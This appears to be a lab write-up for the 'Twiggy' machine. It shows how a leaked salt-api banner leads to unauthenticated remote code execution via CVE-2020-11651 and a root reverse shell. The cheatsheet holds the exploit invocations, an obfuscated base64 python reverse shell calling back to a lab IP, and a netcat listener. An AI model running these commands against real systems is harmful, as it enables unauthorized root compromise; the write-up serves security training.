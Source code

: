 # Twiggy \[Easy]

## Report

Mezzanine CMS hosted on port 80 shows no real vulnerabilities on looking around. However, port 8000 turns out to be an API call and the API used is leaked in response headers (saltapi). An unauthenticated RCE exploit is available and we obtain a reverse shell as root.

## Cheatsheet

```
curl -I http://192.168.61.62:8000
https://github.com/jasperla/CVE-2020-11651-poc
sudo tcpdump icmp
python3 exploit.py --master 192.168.61.62 --exec "ping 192.168.49.61"
python3 exploit.py --master 192.168.61.62 --exec 'echo "cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC40OS42MSIsODAwMCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9iYXNoIikn" | base64 -d | /bin/bash'
nc -lvnp 8000
```

## Loot

### Enumeration

#### Ports Open

* 22 - SSH
* 80 - Mezzanine CMS - Powered by django (Python running)
* 8000 - saltapi version 3000.1

### Attack Vectors

Information disclosure of saltapi via HTTP headers in request made to port 8000

### PrivEsc

None - we get reverse shell as root from saltapi RCE exploit

### Creds

None

### Proof

`'echo "revshell payload" | base64 -d | /bin/bash'`

The other way for quotes didn't quite work out, python payload as we know django instance is running on port 80
